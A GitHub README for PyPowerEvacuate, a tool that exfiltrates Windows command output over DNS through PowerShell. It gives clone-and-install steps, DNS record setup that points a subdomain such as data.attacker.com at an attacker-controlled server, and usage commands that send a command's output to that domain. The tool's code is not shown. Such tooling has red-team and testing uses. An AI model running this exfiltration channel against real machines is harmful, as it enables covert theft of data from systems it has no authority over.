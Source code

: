 # PyPowerEvacuate

PyPowerEvacuate is a tool that allows you to exfiltrate command output over DNS on Windows machines by PowerShell.

![](https://raw.githubusercontent.com/0xAbdullah/PyPowerEvacuate/main/Screenshot.gif)

# Installation
```
git clone https://github.com/0xAbdullah/PyPowerEvacuate.git
cd PyPowerEvacuate
pip3 install requirements.txt
```

# Requirements

If you want to use your domain.
```
Set  A record to your public IP.  -Pointe to your IP/Server-
Set NS record to any subdomain. -Example: data.attacker.com-
```

# Usage
```
python3 PyPowerEvacuate.py -c COMMAND
python3 PyPowerEvacuate.py -c COMMAND -d data.example.com
```
